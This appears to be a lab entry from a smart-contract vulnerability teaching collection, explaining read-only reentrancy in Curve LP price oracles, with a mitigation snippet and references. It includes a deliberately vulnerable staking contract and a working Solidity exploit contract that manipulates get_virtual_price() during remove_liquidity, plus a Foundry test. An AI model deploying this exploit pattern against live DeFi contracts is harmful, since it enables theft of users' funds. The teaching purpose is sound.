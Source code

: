 # Read Only Reentrancy  
[ReadOnlyReentrancy.sol](https://github.com/SunWeb3Sec/DeFiVulnLabs/blob/main/src/test/ReadOnlyReentrancy.sol)   
**Name:** Read-Only Reentrancy Vulnerability

**Description:**  
The Read-Only Reentrancy Vulnerability is a flaw in smart contract design that allows attackers
to exploit the "read-only" nature of a function to make unintended changes to the contract's state.
Specifically, the vulnerability arises when an attacker uses the remove_liquidity function of the ICurve contract to trigger the receive function in the ExploitContract. This is achieved by an external call from a secure smart contract "A" invoking the fallback() function in the attacker's contract.

Through this exploit, the attacker gains the ability to execute code within the fallback() function
against a target contract "B," which is indirectly related to contract "A." Contract "B" derives
the price of the LP token from Contract "A," making it susceptible to manipulation and unintended price changes through the reentrancy attack.

**Mitigation:**  
Avoid any state-changing operations within functions that are intended to be read-only.
Makerdao example:  
```
// This will revert if called during execution of a state-modifying pool function.
if (nonreentrant) {
uint256[2] calldata amounts;
CurvePoolLike(pool).remove_liquidity(0, amounts);
}
```  
REF  

https://twitter.com/1nf0s3cpt/status/1590622114834706432

https://chainsecurity.com/heartbreaks-curve-lp-oracles/

https://medium.com/@zokyo.io/read-only-reentrancy-attacks-understanding-the-threat-to-your-smart-contracts-99444c0a7334

https://www.youtube.com/watch?v=0fgGTRlsDxI    

VulnContract:  
```
contract VulnContract {
    IERC20 public constant token = IERC20(LP_TOKEN);
    ICurve private constant pool = ICurve(STETH_POOL);

    mapping(address => uint) public balanceOf;

    function stake(uint amount) external {
        token.transferFrom(msg.sender, address(this), amount);
        balanceOf[msg.sender] += amount;
    }

    function unstake(uint amount) external {
        balanceOf[msg.sender] -= amount;
        token.transfer(msg.sender, amount);
    }

    function getReward() external view returns (uint) {
        //rewarding tokens based on the current virtual price of the pool LP token
        uint reward = (balanceOf[msg.sender] * pool.get_virtual_price()) /
            1 ether;
        // Omitting code to transfer reward tokens
        return reward;
    }
}
```
**How to Test:**

forge test --contracts src/test/ReadOnlyReentrancy.sol -vvvv  
```
// Function to test the exploitation of a read-only reentrancy vulnerability in the VulnContract
function testPwn() public {
    // Stake 10 ether into the VulnContract through the exploit contract
    hack.stakeTokens{value: 10 ether}(); 
    // Perform a read-only reentrancy attack on the VulnContract
    hack.performReadOnlyReentrnacy{value: 100000 ether}();
}

// Contract to exploit the read-only reentrancy vulnerability in VulnContract
contract ExploitContract {
    // Interfaces for interacting with the ICurve and IERC20 contracts
    ICurve private constant pool = ICurve(STETH_POOL);
    IERC20 public constant lpToken = IERC20(LP_TOKEN);
    // The vulnerable contract to be exploited
    VulnContract private immutable target;

    // Constructor to initialize the vulnerable contract
    constructor(address _target) {
        target = VulnContract(_target);
    }

    // Function to stake LP tokens into the VulnContract
    function stakeTokens() external payable {
        // Amounts to be added as liquidity to the Curve pool
        uint[2] memory amounts = [msg.value, 0];
        // Add liquidity to the Curve pool and receive LP tokens in return
        uint lp = pool.add_liquidity{value: msg.value}(amounts, 1);
        // Log the price of the LP token after adding liquidity
        console.log(
            "LP token price after staking into VulnContract",
            pool.get_virtual_price()
        );
        // Approve the VulnContract to spend LP tokens on behalf of this contract
        lpToken.approve(address(target), lp);
        // Stake the LP tokens into the VulnContract
        target.stake(lp);
    }

    // Function to perform the read-only reentrancy attack on the VulnContract
    function performReadOnlyReentrnacy() external payable {
        // Amounts to be added as liquidity to the Curve pool
        uint[2] memory amounts = [msg.value, 0];
        // Add liquidity to the Curve pool and receive LP tokens in return
        uint lp = pool.add_liquidity{value: msg.value}(amounts, 1);
        // Log the price of the LP token before removing liquidity
        console.log(
            "LP token price before remove_liquidity()",
            pool.get_virtual_price()
        );
        // Minimum amounts to be received when removing liquidity
        uint[2] memory min_amounts = [uint(0), uint(0)];
        // Remove liquidity from the Curve pool, which will trigger the receive function
        pool.remove_liquidity(lp, min_amounts);
        // Log the price of the LP token after removing liquidity
        console.log(
            "--------------------------------------------------------------------"
        );
        console.log(
            "LP token price after remove_liquidity()",
            pool.get_virtual_price()
        );
        // Log the reward amount that would be received from the VulnContract
        uint reward = target.getReward();
        console.log("Reward if Read-Only Reentrancy is not invoked: ", reward);
    }

    // Fallback function that will be triggered when removing liquidity from the Curve pool
    receive() external payable {
        // Log the price of the LP token during the removal of liquidity
        console.log(
            "--------------------------------------------------------------------"
        );
        console.log(
            "LP token price during remove_liquidity()",
            pool.get_virtual_price()
        );
        // Log the reward amount that would be received from the VulnContract
        uint reward = target.getReward();
        console.log("Reward if Read-Only Reentrancy is invoked: ", reward);
    }
}
```
Red box: exploited successful, price manipulated  
![image](https://web3sec.notion.site/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2Ff974125e-47d0-42ca-89bc-1d9ef7608094%2FUntitled.png?table=block&id=db05153a-1fed-46f6-91fe-6a1caae5e036&spaceId=369b5001-5511-4fe6-a099-48af1d841f20&width=2000&userId=&cache=v2)

![image](https://web3sec.notion.site/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2Fc578eed0-e82d-4179-8cd2-75c3e921fdf9%2FUntitled.png?table=block&id=a9136681-055a-42b9-80e0-4f2b2ebbe0d8&spaceId=369b5001-5511-4fe6-a099-48af1d841f20&width=2000&userId=&cache=v2)